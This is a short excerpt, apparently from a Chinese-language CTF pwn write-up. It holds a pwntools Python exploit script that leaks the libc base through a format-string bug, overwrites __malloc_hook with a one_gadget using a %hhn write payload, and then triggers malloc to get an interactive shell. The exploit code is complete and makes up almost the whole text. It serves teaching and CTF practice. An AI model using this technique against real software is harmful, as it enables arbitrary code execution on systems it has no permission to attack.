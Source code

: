 ```python
    sl("Remind me to "+payload)

lauch_gdb(p)
rl = lambda a=False              : p.recvline(a)    
ru = lambda a,b=True             : p.recvuntil(a,b)
rn = lambda x                    : p.recvn(x)
sd = lambda x                    : p.send(x)
sl = lambda x                    : p.sendline(x)
sa = lambda a,b                  : p.sendafter(a,b)
sla = lambda a,b                 : p.sendlineafter(a,b)
irt = lambda                     : p.interactive()
uu32 = lambda data               : u32(data.ljust(4,'\x00'))
uu64 = lambda data               : u64(data.ljust(8,'\x00'))
cth = lambda content,length      : int(content[:length],16)

add("libc : %83$p")
ru("libc : 0x")
libc_base = int(p.recv(12),16)-231-libc.sym['__libc_start_main']
print "libc_base = "+hex(libc_base)
malloc_hook = libc_base + libc.sym['__malloc_hook']
print "malloc_hook = "+hex(malloc_hook)
og = [0x4f365,0x4f3c2,0x10a45c]
gadget = libc_base + og[1]
print "gadget:"+hex(gadget)

payload = ''
written_size = 0
offset = 64

for i in xrange(6):
    size = (gadget>>(8*i)) & 0xff
    size -= 27
    if(size > (written_size & 0xff)):
        payload += '%{0}c%{1}$hhn'.format(size-(written_size&0xff),offset+i)
        written_size += size - (written_size & 0xff)
    else:
        payload += '%{0}c%{1}$hhn'.format((0x100-(written_size&0xff))+size,offset+i)
        written_size += (0x100 - (written_size&0xff)) + size

payload=payload.ljust(0x80-13,'a')
for i in xrange(6):
    payload += p64(malloc_hook+i)

log.info(payload)
pause()
add(payload)
add("%3000000c")
irt()
```

## 修改返回地址——leak
